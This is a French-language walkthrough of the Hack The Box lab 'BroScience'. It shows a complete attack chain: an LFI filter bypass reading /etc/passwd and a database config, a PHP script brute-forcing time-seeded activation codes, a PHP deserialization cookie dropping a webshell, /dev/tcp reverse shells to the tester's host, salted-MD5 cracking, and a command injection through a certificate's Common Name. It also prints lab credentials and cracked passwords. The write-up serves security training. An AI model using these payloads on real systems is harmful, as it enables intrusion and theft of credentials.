




Enumération
Ports TCP ouverts
22/tcp open ssh
80/tcp open http
443/tcp open https
Service WEB
Port 80
La banière du serveur retourne : Apache/2.4.54 (Debian) Server at broscience.htb Port 80
Toutes les pages du serveur semblent être redirigées vers la même URL sur le port 443 (HTTPS)
feroxbuster -w "/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt" -t 50 --auto-tune -u http://$TARGET_VHOST/ -s '200,204,302,307,308,401,403,405,404' --dont-filter
Seul certaines url mal formées ne semble pas déclencher la redirection :
http://broscience.htb/http%3A%2F%2Fyoutube
Mais cela ne semble a première vue pas exploitable
Port 443
La banière du serveur retourne : Apache/2.4.54 (Debian) Server at broscience.htb Port 443
Dossiers intéressants
feroxbuster -w "/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt" -t 50 --auto-tune -u https://$TARGET_VHOST/ --filter-status 301,404 -k --add-slash --no-recursion

Parmis les dossiers énumérés, le dossier includes contient des fichiers intéresant. Il ne sont toutefois pas visualisables mais nous chercherons à les lire par la suite.

On découvre que le dossier images contient l'ensemble des images du site

La documentation d'apache 2.4 est également hébergée localement mais ne présente aucun intérêt :
https://broscience.htb/manual/

Découverte manuelle du site
Fichier /includes/img.php
LFI potentielle via le paramètre path :
- Paramètre légitime :
/includes/img.php?path=deadlift.png - Protection présente retournant :
```HTTP/1.1 200 OK Date: Wed, 15 Feb 2023 22:12:48 GMT Server: Apache/2.4.54 (Debian) Content-Length: 30 Connection: close Content-Type: text/html; charset=UTF-8
Error: Attack detected.
- Motifs déclenchants ce blocage :
- `../`
- `/etc/passwd`
- Tentatives de contournement infructueuses :
- `..%5c`
- null byte
- RFI
- `' and die(system("curl http://10.10.14.147")) or '`
- et autre suggestions provenant de <https://book.hacktricks.xyz/pentesting-web/file-inclusion>
découverte du compte utilisateur 'bill' disposant d'un shell sur le système
curl -k https://broscience.htb/includes/img.php?path=%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc%252fpasswd HTTP/1.1
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
découverte d'identifiants :
└─$ curl -k https://broscience.htb/includes/img.php?path=%252e%252e/includes/db_connect.php <?php $db_host = "localhost"; $db_port = "5432"; $db_name = "broscience"; $db_user = "dbuser"; $db_pass = "RangeOfMotion%777"; $db_salt = "NaCl";
# Découverte du code source de l'application
On énumère ensuite les quelques fichiers constituant le code source de l'application :

## Enumération des vulnérabilités
En analysant le code de l'application, nous découvrons rapidement plusieures vulnérabilités :
- Vulnérabilité 1 : Mauvaise initialisation du générateur de nombres aléatoires responsables de la génération du code d'activation rendant possible la découverte du code d'activation
- Vulnérabilité 2 : Absence de protection concernant la désérialisation d'un cookie utilisateur rendant possible l'exécution de code arbitraire à distance.
La vulnérabilité 2 n'étant exploitable que dans la zone authentifiée du site, il faudra d'abord exploiter la vulnérabilité 1 pour obtenir une exécution de code arbitraire à distance.
## Exploitation
### Vulnérabilité 1 : Activation d'un compte de test
#### Analyse de la vulnérabilité
La fonction responsable de la génération du code d'activation lors de la création d'un compte utilisateur est la suivante :
```php
function generate_activation_code() {
$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
srand(time());
$activation_code = "";
for ($i = 0; $i < 32; $i++) {
$activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
}
return $activation_code;
}
Elle utilise la fonction time() pour initialiser le générateur de nombres aléatoires.
Cela signifit qu'en sachant à quelle heure a eu lieu la création du compte utilisateur, on peut deviner le code d'activation généré. La conséquence directe étant l'activation du compte sans posséder le code d'activation.
Etant donné que le serveur à exploiter et notre machine ne sont pas synchronisés niveau temps, on devra bruteforcer quelques codes d'activation avant et après celui correspondant à l'heure d'activation.
Attaque du code d'activation
<?php
/*
File : guess_activation_code.php
Usage :
- Edit variables $user / $pass / $mail as desired
- php guess_activation_code.php | ffuf -u https://broscience.htb/activate.php?code=FUZZ -w - -fr "Invalid"
*/
$user = "reb";
$pass = $user;
$mail = $user . "@somewhere.org";
function generate_activation_code($time) {
$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
srand($time);
$activation_code = "";
for ($i = 0; $i < 32; $i++) {
$activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
}
return $activation_code;
}
function print_brute_force_acivation_code($start_time, $end_time){
for ($cur_time = $start_time ; $cur_time <= $end_time ; $cur_time++){
$activation_code = generate_activation_code($cur_time);
echo $activation_code . "\n";
}
}
function register(){
global $user, $pass, $mail;
print "[+] Registering...";
shell_exec("curl -v -k -X POST https://broscience.htb/register.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=$user&email=$mail&password=$pass&password-confirm=$pass' >> register_log" ) ;
print " Done";
}
function main(){
$start_time = time();
register();
$end_time = time();
print_brute_force_acivation_code($start_time-100, $end_time+100);
}
main();
?>
Au bout de quelques secondes, le compte utilisateur nouvellement créé par le script ci-dessus sera activé à l'aide de l'utilitaire ffuf
Vulnérabilité 2 : Exécution de code à distance
Analyse de la vulnérabilité
Absence de vérification dans la déserialisation d'un objet PHP contenu dans un cookie utilisateur
La partie authentifiée du site propose un système de thème. Le thème devant être affiché est paramétré à l'aide d'un cookie utilisateur. Ce cookie contient une version sérializée d'un objet PHP indiquant le thème à utiliser pour le rendu de la page.
Lorsqu'une page est affichée dans la section authentifiée du site, le cookie est désérialisé sans aucun mécanisme de vérification dans la fonction get_theme() du fichier /includes/utils.php:
function get_theme() {
if (isset($_SESSION['id'])) {
if (!isset($_COOKIE['user-prefs'])) {
$up_cookie = base64_encode(serialize(new UserPrefs()));
setcookie('user-prefs', $up_cookie);
} else {
$up_cookie = $_COOKIE['user-prefs'];
}
$up = unserialize(base64_decode($up_cookie));
return $up->theme;
} else {
return "light";
}
}
Classes utilisables pour réaliser une inclusion de fichier à distance (RFI)
La présence dans le code php des 2 classes suivantes rendent possible la création d'un fichier contenant du code php menant à une exécution de code arbitraire à distance
class Avatar {
public $imgPath;
public function __construct($imgPath) {
$this->imgPath = $imgPath;
}
public function save($tmp) {
$f = fopen($this->imgPath, "w"); // <==== propriété 'imgPath' controllable
fwrite($f, file_get_contents($tmp)); // <==== propriété 'tmp' controllable
fclose($f);
}
}
class AvatarInterface {
public $tmp;
public $imgPath;
public function __wakeup() {
$a = new Avatar($this->imgPath);
$a->save($this->tmp);
}
}
Exploitation
On crée puis exécute ce script qui générera un cookie valide qui une fois désérialisé, créera le fichier $payload_path qui contiendra $payload :
<?php
// code vulnérable unserialize(base64_decode($up_cookie));
// Attaque : créer un cookie valide qui une fois déserialisé pourra stocker un webshell dans un dossier de notre choix
// classes vulnérables utilisées :
class Avatar {
public $imgPath;
public function __construct($imgPath) {
$this->imgPath = $imgPath;
}
public function save($tmp) {
$f = fopen($this->imgPath, "w");
fwrite($f, file_get_contents($tmp));
fclose($f);
}
}
class AvatarInterface {
public $tmp;
public $imgPath;
public function __wakeup() {
$a = new Avatar($this->imgPath);
$a->save($this->tmp);
}
}
function println(string $x): void {
echo $x, PHP_EOL;
}
// création de l'objet à serializer
$payload_path = "/var/www/html/rebrec2.php";
$rfi = 'http://10.10.24.179/rebrec-rs.php';
$payload = '<?php system($_GET["cmd"]);';
$b64_payload = base64_encode($payload);
$rfi = 'php://filter/convert.base64-decode/resource=data://text/plain,' . $b64_payload;
$obj = new AvatarInterface();
$obj->tmp = $rfi;
$obj->imgPath = $payload_path;
$up_cookie = base64_encode(serialize($obj));
println('Cookie à "prefs" à mettre dans un une requête GET /index.php après avoir été authentifié :');
println($up_cookie);
println('');
unserialize(base64_decode($up_cookie));
println(file_get_contents($payload_path));
?>
On insère ensuite ce cookie dans une requête interceptée à l'aide de Burp :

Obtention d'un shell
Pour une raison non maîtrisée, les reverse shell PHP ne semblaient pas fonctionner correctement, c'est pourquoi le code présenté ci-dessus n'est un "Webshell" très basique.
On l'utilise pour obtenir un reverse shell de la manière suivante :
- On crée un script
revshell.shqui contiendra notre reverse shell à exécuter :
$ cat revshell.sh
#!env sh
/bin/sh -i >& /dev/tcp/10.10.14.179/1337 0>&1
- On le rend téléchargeable en lancant un serveur web depuis le dossier contenant ce script à l'aide de la commande
python -m http.server 80 - On le télécharge via le webshell dans le dossier courant qui dispose d'un droit en écriture pour www-data :
curl -X GET http://broscience.htb/rebrec2.php?cmd=wget%20http://10.10.14.179/revshell.sh
- On l'exécute après avoir lancé localement un listener à l'aide de la commande
rlwrap nc -lnvp 1337:
curl -X GET http://broscience.htb/rebrec2.php?cmd=bash%20./revshell.sh
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Elevation de privilèges
ANCIENNE RESOLUTION ERRONNEE
Après avoir téléchargé le script lse.sh puis l'avoir exécuté avec la commande : bash ./lse.sh -l1 p1, on découvre que le shell bash est setuid root :
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/usr/bin/vmware-user-suid-wrapper
/usr/bin/bash
Il ne reste plus qu'à obtenir les privilèges root et afficher les flags :
$ bash -p
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
cat /root/root.txt
7eaf6db3********37bd4f15830e0
cat /home/bill/user.txt
0d8eadfb********617b5debcecbfe54
NOUVELLE RESOLUTION PRIVESC
On cherche dans la base de donnée si elle ne contient pas des informations intéressantes.
Les identifiants de connexions étaient stockés dans le fichier include/db_connect.php.
On utilise donc la commande suivante :
psql -h localhost -U dbuser -d broscience
On liste les tables disponibles avec
\dt
Puis on liste les enregistrements de la table users :
select * from users;
id | username | password | email | activation_code | is_activated | is_admin | date_created
----+---------------+----------------------------------+------------------------------+----------------------------------+--------------+----------+-------------------------------
1 | administrator | 15657792073e8a843d4f91fc403454e1 | administrator@broscience.htb | OjYUyL9R4NpM9LOFP0T4Q4NUQ9PNpLHf | t | t | 2019-03-07 02:02:22.226763-05
2 | bill | 13edad4932da9dbb57d9cd15b66ed104 | bill@broscience.htb | WLHPyj7NDRx10BYHRJPPgnRAYlMPTkp4 | t | f | 2019-05-07 03:34:44.127644-04
3 | michael | bd3dad50e2d578ecba87d5fa15ca5f85 | michael@broscience.htb | zgXkcmKip9J5MwJjt8SZt5datKVri9n3 | t | f | 2020-10-01 04:12:34.732872-04
4 | john | a7eed23a7be6fe0d765197b1027453fe | john@broscience.htb | oGKsaSbjocXb3jwmnx5CmQLEjwZwESt6 | t | f | 2021-09-21 11:45:53.118482-04
5 | dmytro | 5d15340bded5b9395d5d14b9c21bc82b | dmytro@broscience.htb | 43p9iHX6cWjr9YhaUNtWxEBNtpneNMYm | t | f | 2021-08-13 10:34:36.226763-04
6 | aze1 | 5cd6546fa55766a2210b9bb796127a2e | aze1@aze.fr | GqrsXMa5DfoEPGmy7MvyjZSF5yJmCUIU | t | f | 2023-04-06 15:49:55.735886-04
On enregistre ce contenu dans le fichier raw
La génération du mot de passe est détaillée dans les fichiers suivants :
- db_connect.php : on y trouve la valeur du salt :
$db_salt = "NaCl". - register.php : on y trouve que le mot de passe stocké en base est un hash MD5 de la concaténation du Salt et du mot de passe.
On formatte donc le fichier raw pour qu'il soit interprettable par john :
$ awk -F '|' '{print $2":"$3"$NaCl"}' raw | sed 's/ //g' | tee hashes
administrator:15657792073e8a843d4f91fc403454e1$NaCl
bill:13edad4932da9dbb57d9cd15b66ed104$NaCl
michael:bd3dad50e2d578ecba87d5fa15ca5f85$NaCl
john:a7eed23a7be6fe0d765197b1027453fe$NaCl
dmytro:5d15340bded5b9395d5d14b9c21bc82b$NaCl
aze1:5cd6546fa55766a2210b9bb796127a2e$NaCl
On crack enfin nos hashes en précisant le format de génération des hashes :
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=dynamic='md5($s.$p)' hashes
Using default input encoding: UTF-8
Loaded 6 password hashes with no different salts (dynamic=md5($s.$p) [256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
iluvhorsesandgym (bill)
Aaronthehottest (dmytro)
2applesplus2apples (michael)
On se connecte ensuite en tant que "bill" via SSH et on récupère le Flag utilisateur.
Privesc
On découvre le script /opt/renew_cert.sh qui est vulnérable à une injection de commande bash.
A première vue, ce script n'est pas exécuté dans cron ou tout du moins, pas depuis un emplacement sur lequel nous avons des droits de lecture.
On vérifie s'il est appelé autrement via l'outil pspy.
Au bout d'une minute, on découvre qu'il est effectivement appelé par l'utilisateur root avec en paramètre un certificat situé dans /home/bill/Certs/broscience.crt
Après analyse du script vulnérable on détermine les éléments permettant de déclencher une exécution de code arbitraire :
- il faut un certificat expirant dans moins de 24h
- il faut que le
Common Namecontienne l'injection de commande.
Après quelques test, facilités via le lancement du script à l'aide de bash -x, on on arrive à créer une payload fonctionnelle.
$(bash -c 'bash -i >& /dev/tcp/10.10.14.34/1338 0>&1'